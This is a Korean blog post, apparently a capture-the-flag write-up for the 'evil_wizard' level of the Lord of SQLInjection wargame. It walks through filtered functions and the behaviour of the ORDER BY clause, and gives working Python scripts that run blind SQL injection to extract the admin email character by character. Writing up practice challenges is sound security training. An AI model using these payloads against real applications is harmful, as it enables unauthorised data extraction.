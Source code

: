 ```yaml
---
layout: single
title: "[Lord of SQLInjection] evil_wizard write-up"
date: 2025-05-03 19:30 +0900
categories: 
    - WEB-write-up
tag:
typora-root-url: ../
toc: true
toc_sticky: true
toc_label: 목차
author_profile: true
comment: true
sidebar:
    nav: "docs"
---
```


## Lord of SQLInjection (evil_wizard)

### 풀이

이번 문제에서는 전 문제 hell_fire와 유사한데 sleep과 benchmark를 더 필터링하면서 time blind sqli가 안되는 것을 알 수 있다.

![image-20250503191955232](/images/2025-05-03-los-evil_wizard/image-20250503191955232.png)

<br>

order 파라미터에 1을 넣어봐서 어떻게 정렬되는지 살펴보면 이번에는 admin score 값이 50으로 바뀌어서 먼저 정렬되는 것을 알 수 있다.

![image-20250503192242255](/images/2025-05-03-los-evil_wizard/image-20250503192242255.png)

<br>

아래와 같이 case when 조건 절을 사용해서 admin이면 2를 만들고 rubiya 계정이면 1을 만들어서 확인해보면 case when 조건절은 잘 동작된다는 것을 알 수 있다.

![image-20250503192708362](/images/2025-05-03-los-evil_wizard/image-20250503192708362.png)

<br>

그래서 전에 했던 hell_fire 방식과 동일하게 이번엔 admin email 조건에서 then 2 로 바꾸고 인덱스를 찍어보니 and substr 로 다 찍어보니 거짓임에도 admin 행이 2로 다 참이 되서 찍힌다..

![image-20250503194155698](/images/2025-05-03-los-evil_wizard/image-20250503194155698.png)

<br>

case when 절이 잘 안돼서 if 문으로 다시 시도해보았다. 아래 쿼리를 보면 해당 조건이 거짓인데 아예 출력이 안되진 않고, rubiya 계정이 먼저 나온다는 것을 알 수 있다. 참이면 admin 계정이 먼저 나오므로 이를 토대로  blind sqli를 시도해보자.

![image-20250503202833433](/images/2025-05-03-los-evil_wizard/image-20250503202833433.png)

<br>

계속 and ascii(substr))로 시도하려니까 잘 안되는 거 같아서 아래 코드로 email 길이부터 구해보면 30이라는 것을 알 수 있다.

```python
import requests
import time

url = "https://los.rubiya.kr/chall/evil_wizard_32e3d35835aa4e039348712fb75169ad.php"
cookie = {"PHPSESSID": "d5fo2u0cj07ikqrk2qftquavbd"}
email = ""

for i in range(1, 100):
    param = {
        "order": f"if(id='admin' and length(email)>{i},1,10000)-- -"
        }
    r = requests.get(url=url, cookies=cookie, params=param)
    admin_index = r.text.find("50")
    rubiya_index = r.text.find("100")
    #print(f"admin: {admin_index}, rubiya: {rubiya_index}")
    if admin_index > rubiya_index:
        print(i)
        break
    

```

<br>

비밀번호 길이를 구했으므로 아래 조건이 참이면 admin이 위로 올라오고 아니면  rubiya 계정이 위로 올라오므로 index 값을 계산해서 blind sqli 코드를 짜주면 되겠다.

```python
import requests
import time

url = "https://los.rubiya.kr/chall/evil_wizard_32e3d35835aa4e039348712fb75169ad.php"
cookie = {"PHPSESSID": "d5fo2u0cj07ikqrk2qftquavbd"}
email = ""

for i in range(1, 31):
    for j in range(32, 127):
        param = {
            "order": f"if(id='admin' and ascii(substr(email,{i},1))={j},1,10000)-- -"
        }
        r = requests.get(url=url, cookies=cookie, params=param)
        admin_index = r.text.find("50")
        rubiya_index = r.text.find("100")
        # print(f"admin: {admin_index}, rubiya: {rubiya_index}")
        if admin_index < rubiya_index:
            print(f"email {i}번째는 {chr(j)}입니다.")
            email += chr(j)
            break            
print(email)

```

<br>

![image-20250503205403355](/images/2025-05-03-los-evil_wizard/image-20250503205403355.png)

![image-20250503205429798](/images/2025-05-03-los-evil_wizard/image-20250503205429798.png)